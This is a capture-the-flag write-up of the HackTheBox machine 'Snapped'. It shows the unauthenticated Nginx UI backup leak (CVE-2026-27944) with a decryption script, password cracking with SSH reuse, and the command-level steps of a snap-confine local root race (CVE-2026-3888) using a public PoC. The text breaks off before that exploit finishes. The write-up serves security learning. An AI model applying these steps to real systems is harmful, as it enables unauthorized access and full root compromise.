This box is rated hard difficulty on HTB. It involves us finding a backup API on the site's admin virtual host, allowing us to create a backup of nginx configuration files and decrypt them with a server response header. After finding a password hash in a database file, we can crack it to get a low-priv shell on the system. Finally, we can abuse a recent TOCTUA race condition CVE within snap to escalate privileges to root.

## Host Scanning
As always, I begin with an Nmap scan against the target IP to find all running services on the host; Repeating the same for UPD returns nothing.

```
$ sudo nmap -p22,80 -sCV 10.129.15.173 -oN fullscan-tcp

Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-05 21:50 -0400
Nmap scan report for 10.129.15.173
Host is up (0.064s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4b:c1:eb:48:87:4a:08:54:89:70:93:b7:c7:a9:ea:79 (ECDSA)
|_  256 46:da:a5:65:91:c9:08:99:b2:96:1d:46:0b:fc:df:63 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://snapped.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.27 seconds
```

There are just two ports open:
- SSH on port 22
- An nginx web server on port 80

There isn't much we can do with that particular version of OpenSSH without credentials, so I focus mainly on the web server. Default scripts show that it's redirecting us to `snapped.htb`, so I'll add that to my `/etc/hosts` file. I also fire up Ffuf to search for subdirectories and Vhosts in the background before heading over to the site.

## Web Enumeration
Checking out the landing page shows a static webpage for an organization that provides infrastructure for management systems as a service. Most links go nowhere and there doesn't seem to be a login page either.



Oddly enough, my directory searches don't find a single endpoint which makes me think that this site is solely meant to host their business content. 

Scrolling down, we can find an address for their contact email which confirms the structure of it as well as a faint version in the footer which discloses that this is the first production version. We can infer that this site is custom-built and not based on a framework, meaning that the fate of any APIs present is left up to the developer's security awareness. 



I spent some time fuzzing for common API endpoints (e.g. `/api`, `v1`, and `/v2`) but found nothing here. 

### Admin Site
My Vhost scans pick up an Admin host who's name follows suit. I append that to my hosts file and start enumeration over there.

```
$ ffuf -u http://snapped.htb -w /opt/seclists/Discovery/Web-Content/raft-small-words.txt -H "Host: FUZZ.snapped.htb" --fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://snapped.htb
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/raft-small-words.txt
 :: Header           : Host: FUZZ.snapped.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

admin                   [Status: 200, Size: 1407, Words: 164, Lines: 50, Duration: 60ms]

:: Progress: [43007/43007] :: Job [1/1] :: 716 req/sec :: Duration: [0:01:02] :: Errors: 0 ::
```

Right away, we find an Nginx UI login portal meant for administrators to manage web components directly from this web interface. A few attempts with default credentials such as `admin:admin` or `admin:password` fails and I start my directory searches again.



```
$ ffuf -u http://admin.snapped.htb/FUZZ -w /opt/seclists/directory-list-2.3-medium.txt                                       

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://admin.snapped.htb/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 57ms]
mcp                     [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 58ms]

:: Progress: [220546/220546] :: Job [1/1] :: 709 req/sec :: Duration: [0:05:25] :: Errors: 0 ::
```

That scan reveals the presence of an MCP endpoint which throws a 403 code saying "authorization failed". A Model Context Protocol (MCP) acts as a standardized interface that lets an LLM discover, authenticate, and interact with external tools, data sources, or APIs in a consistent way. The LLM communicates through structured requests (like function calls or JSON schemas), which the MCP translates into real API calls and then returns the results back to the model for further reasoning.

### API Fuzzing
We're likely required to have an API key or some special admin header in requests made to this endpoint, however we now know that there should be APIs to start enumerating.

```
$ ffuf -u http://admin.snapped.htb/api/FUZZ -w /opt/seclists/Discovery/Web-Content/api/api-endpoints-res.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://admin.snapped.htb/api/FUZZ
 :: Wordlist         : FUZZ: /opt/seclists/Discovery/Web-Content/api/api-endpoints-res.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

config                  [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 56ms]
events                  [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 59ms]
notifications           [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 57ms]
settings                [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 56ms]
users/current           [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 59ms]
users/login             [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 59ms]
settings                [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 55ms]
user                    [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 56ms]
backup                  [Status: 200, Size: 18354, Words: 76, Lines: 75, Duration: 73ms]
certs                   [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 54ms]
configs                 [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 55ms]
config                  [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 58ms]
events                  [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 56ms]
install                 [Status: 200, Size: 29, Words: 1, Lines: 1, Duration: 56ms]
node                    [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 54ms]
settings                [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 56ms]
sites                   [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 54ms]
users                   [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 55ms]
user                    [Status: 403, Size: 34, Words: 2, Lines: 1, Duration: 55ms]
:: Progress: [12334/12334] :: Job [1/1] :: 666 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

That scan returns plenty of APIs that deem us as unauthorized apart from the backup and install endpoints. The ladder only holds information about the Nginx UI install and isn't very interesting.



## Vulnerable Backup API
On the other hand, the backup endpoint allows us to download a backup ZIP file of the website to our local machine. This makes finding secrets within the server's configuration and source code very easy.



Unzipping it grants us a hash information text file and two ZIP archives for the UI and regular nginx configuration files, respectively. Reading the contents of them show some type of encryption on it, blocking us from parsing the data just yet.



### Decrypting Backup Files
A bit of research on the Nginx UI backup API reveals [CVE-2026–27944](https://nvd.nist.gov/vuln/detail/CVE-2026-27944). This explains that Nginx UI versions prior to 2.3.3 allow unauthenticated access to backup the site and discloses the encryption keys required to decrypt the backup in the `X-Backup-Security` response header.

The `X-Backup-Security` header contains:
- Key: `e5eWtUkqVEIixQjh253kPYe3cpzdasxiYTbOFHm9CJ4=` (Base64-encoded 32-byte AES-256 key)
- IV: `7XdVSRcgYfWf7C/J0IS8Cg==` (Base64-encoded 16-byte IV)

I capture this header's value in Burp Suite, which now allows us to decrypt the data.



It seems like the application decrypts the archives using AES-CBC along which uses the Key and IV from the response header. Knowing this, we can create a simple script that takes in the necessary parameters to get the unciphered files back.

```python
#!/usr/bin/env python3

import argparse
import base64
from Crypto.Cipher import AES

def try_decrypt(encrypted, key, iv):
    try:
        cipher = AES.new(key, AES.MODE_CBC, iv)
        return cipher.decrypt(encrypted)
    except Exception:
        return None

def find_zip(data):
    idx = data.find(b'PK\x03\x04')
    if idx != -1:
        return data[idx:]
    return None

def main():
    parser = argparse.ArgumentParser(description="Robust AES-CBC backup decryptor")
    parser.add_argument("file", help="Encrypted file (e.g. nginx.zip)")
    parser.add_argument("--key", required=True, help="Base64 AES key")
    parser.add_argument("--iv", required=True, help="Base64 IV from header")
    parser.add_argument("--out", default="decrypted.zip", help="Output file")
    args = parser.parse_args()

    # Decode key/IV
    key = base64.b64decode(args.key)
    iv = base64.b64decode(args.iv)

    print(f"[*] Key length: {len(key)} bytes")
    print(f"[*] IV length : {len(iv)} bytes")

    with open(args.file, "rb") as f:
        encrypted = f.read()

    print(f"[*] Loaded {len(encrypted)} bytes from {args.file}")

    candidates = []

    # Method 1: Use header IV directly
    print("[*] Trying header IV...")
    dec1 = try_decrypt(encrypted, key, iv)
    if dec1:
        candidates.append(("header_iv", dec1))

    # Method 2: First 16 bytes = IV
    print("[*] Trying embedded IV (first 16 bytes)...")
    if len(encrypted) > 16:
        iv2 = encrypted[:16]
        ciphertext = encrypted[16:]
        dec2 = try_decrypt(ciphertext, key, iv2)
        if dec2:
            candidates.append(("embedded_iv", dec2))

    # Analyze results
    for method, data in candidates:
        print(f"[*] Checking result from: {method}")

        # Try raw
        if data.startswith(b'PK\x03\x04'):
            print(f"[+] Valid ZIP detected (no fix needed) via {method}")
            with open(args.out, "wb") as f:
                f.write(data)
            return

        # Try stripping junk
        fixed = find_zip(data)
        if fixed:
            print(f"[+] ZIP recovered after stripping junk via {method}")
            with open(args.out, "wb") as f:
                f.write(fixed)
            return

    print("[!] Failed to recover a valid ZIP file")
    print("    Possible causes:")
    print("    - Key/IV mismatch")
    print("    - Corrupted file")
    print("    - Different encryption scheme")

if __name__ == "__main__":
    main()
```

It's important to note that the header's Key and IV values change for each call to the API, so if you're getting a mismatch error you may be using the wrong `X-Backup-Security` header. This script also uses the pycryptodome library, so I create a Python virtual environment to be able to install and run it on my Kali machine.

```
$ python3 -m venv venv
$ source venv/bin/activate
$ pip3 install pycryptodome

$ python3 decrypt.py nginx.zip --key 'oR2AL6li+5Qwtal9UajoVCJfBz3DzZsMpS97zsh7Xzc=' --iv '2FAlNqFPQOF7T3GuEJCEPA==' --out nginx_decrypted.zip
[*] Key length: 32 bytes
[*] IV length : 16 bytes
[*] Loaded 9952 bytes from nginx.zip
[*] Trying header IV...
[*] Trying embedded IV (first 16 bytes)...
[*] Checking result from: header_iv
[+] Valid ZIP detected (no fix needed) via header_iv
                                                                                                                                                 
$ python3 decrypt.py nginx-ui.zip --key 'oR2AL6li+5Qwtal9UajoVCJfBz3DzZsMpS97zsh7Xzc=' --iv '2FAlNqFPQOF7T3GuEJCEPA==' --out nginxUI_decrypted.zip
[*] Key length: 32 bytes
[*] IV length : 16 bytes
[*] Loaded 7744 bytes from nginx-ui.zip
[*] Trying header IV...
[*] Trying embedded IV (first 16 bytes)...
[*] Checking result from: header_iv
[+] Valid ZIP detected (no fix needed) via header_iv
```

Once those archives are decrypted, we can unzip them to parse through the files, looking for any sensitive information like hardcoded credentials or even usernames to brute-force.



### Initial Foothold
There is a database.db file that was within the nginx_ui.zip archive, formatted for SQLite3. Using the corresponding tool to dump the database contents grants us password hashes for the admin and a user named Jonathan.



Sending those over to JohnTheRipper or Hashcat grants us the unhashed password for Jonathan's account.



These credentials allow us to login to the nginx UI site, but there isn't a whole lot to do there. Checking for password reuse over SSH allows us to get a shell as Jonathan and grab the user flag under his home directory.



## Privilege Escalation
It seems that Jonathan is the only other user on the system besides root. The Kernel is up-to-date, we are not allowed to run Sudo commands, and there aren't any interesting services running internally. However, while checking for files with the SUID bit set, I notice a ton that pertain to the snapd daemon.



### Snap-Confine SUID
The main thing that stuck out to me is the snap-confine binary, which is an internal, privileged helper tool used by snapd to create secure sandboxes for Snap applications on Linux.



We can find the version by running the snap command with the necessary flag. This reveals a recent, yet vulnerable version of snap installed on the machine. A quick Google search allows me to discover [CVE-2026–3888](https://nvd.nist.gov/vuln/detail/CVE-2026-3888), which is a high-severity local privilege escalation vulnerability in Ubuntu's snapd that arises from an unsafe interaction between snap-confine and systemd-tmpfiles, where a critical `/tmp/.snap` directory can be deleted and improperly recreated.

### Exploiting CVE-2026–3888
An attacker with low privileges can wait for the system cleanup process to remove this directory, recreate it with malicious content, and then have those files executed or mounted by a root-privileged process - ultimately gaining full root access.

This [Qualys article](https://blog.qualys.com/vulnerabilities-threat-research/2026/03/17/cve-2026-3888-important-snap-flaw-enables-local-privilege-escalation-to-root) explains the whole process very in-depth. Quoting them, the attack vector involves:
1. The attacker must wait for the system's cleanup daemon (30 days in `Ubuntu 24.04`; 10 days in later versions) to delete a critical directory (`/tmp/.snap`) required by snap-confine.
2. Once deleted, the attacker recreates the directory with malicious payloads.
3. During the next sandbox initialization, snap-confine bind-mounts these files as root, allowing the execution of arbitrary code within the privileged context.

Throughout these next steps, I refer to this [OSS-Security advisory](https://www.openwall.com/lists/oss-security/2026/03/17/8) which contains detailed information on the exploitation process. At a high level, the exploit chain goes as follows:
- Get a shell inside a snap sandbox (firefox)
- Wait for `/tmp/.snap` to be deleted (or simulate that condition)
- Re-create it and race snap-confine to control mounted libraries
- Replace the dynamic loader with your payload
- Execute a SUID binary -> get root inside sandbox
- Escape sandbox by dropping a SUID bash

Getting started with exploitation, we can check how often the `/tmp` directory is getting cleaned up.

```
jonathan@snapped:/tmp$ cat /usr/lib/tmpfiles.d/tmp.conf
#  This file is part of systemd.
#
#  systemd is free software; you can redistribute it and/or modify it
#  under the terms of the GNU Lesser General Public License as published by
#  the Free Software Foundation; either version 2.1 of the License, or
#  (at your option) any later version.

# See tmpfiles.d(5) for details

# Clear tmp directories separately, to make them easier to override
D /tmp 1777 root root 4m
#q /var/tmp 1777 root root 30d
```

As this is a machine meant to teach us things, it has been set to four minutes instead of the default ten days. Now that we know around how long this deletion process will take place, we can begin by grabbing a shell within the sandbox.

```
jonathan@snapped:/tmp$ env -i SNAP_INSTANCE_NAME=snap-store /usr/lib/snapd/snap-confine --base core22 snap.snap-store.hook.configure /bin/bash
bash: /home/jonathan/.bashrc: Permission denied

jonathan@snapped:/tmp$ stat ./.snap
  File: ./.snap
  Size: 4096            Blocks: 8          IO Block: 4096   directory
Device: fc00h/64512d    Inode: 262023      Links: 5
Access: (0755/drwxr-xr-x)  Uid: (    0/    root)   Gid: (    0/    root)
Access: 2026-04-06 00:02:48.448475971 -0400
Modify: 2026-04-06 00:02:48.542410593 -0400
Change: 2026-04-06 00:02:48.542410593 -0400
 Birth: 2026-04-06 00:02:48.448475971 -0400

...

jonathan@snapped:/tmp$ while test -d ./.snap; do touch ./; sleep 60; done

jonathan@snapped:/tmp$ stat ./.snap
stat: cannot statx './.snap': No such file or directory

jonathan@snapped:/tmp$ echo $$
10817
```

Once inside, we keep the `/tmp` directory alive by running the touch command repeatedly and allowing `.snap` to fall dormant. After around four minutes, we can check the `.snap` directory with `stat` and find that it has been deleted. We'll also need the PID of the sandbox's shell for the next step which can be done with `echo $$ `

The next step involves us spawning another shell (via SSH) and changing directories into the sandbox's `/tmp` directory. The reason we went through the trouble of that first step is to bypass the permission restrictions on the `/tmp/snap-private-tmp/` directory, which isn't reachable without root privileges.

We can do this by means of `/proc/PID/cwd`.

```
jonathan@snapped:/tmp$ cd /proc/10817/cwd
jonathan@snapped:/proc/10817/cwd$ ls -la
total 0
```

Once we have access to that directory, we must tear down the cached mount namespace while making sure to preserve /tmp. We can do this by using an invalid base. The reason we use a systemd wrapper is to meet the cgroup requirement for snap, otherwise this would entirely fail.

```
jonathan@snapped:/proc/10817/cwd$ systemd-run --user --scope --unit=snap.d$(date +%s) /bin/bash
Running as unit: snap.d1775450063.scope; invocation ID: 7224054f9d254ec9adec8fdc474dd120
jonathan@snapped:/proc/10817/cwd$ env -i SNAP_INSTANCE_NAME=firefox /usr/lib/snapd/snap-confine --base snapd snap.firefox.hook.configure /nonexistent
cannot perform operation: mount --rbind /dev /tmp/snap.rootfs_ndfFoL//dev: No such file or directory
```

### Executing PoC
While looking for PoCs for this CVE, I found this [Github repository](https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE) made by one of the box's creators as well. We can follow the instructions in the repo and compile the C programs on our local machine, before uploading them to the system. We have the option to transfer them via SSH or an HTTP server.

```
$ gcc -O2 -static -o exploit exploit_suid.c
$ gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell_suid.c
```

The PoC has options to either abuse an SUID or file capabilities, seeing as the snap-confine binary has the setUID bit on it, I proceed with the former.

This will recreate the .snap mimic tree and swap the `.exchange` directories upon a trigger. Attacker-owned files are then mounted on the sandbox as root, effectively swapping `ld-linux-x86–64.so.2` with shellcode. Finally, executing the snap-confine binary will run it as root user and an SUID bash is dropped into a writable directory, which can be used to escape the sandbox with root privileges.

First let's recreate the mimic tree with the compiled code in our second terminal (the one that bypassed permission restrictions).

```
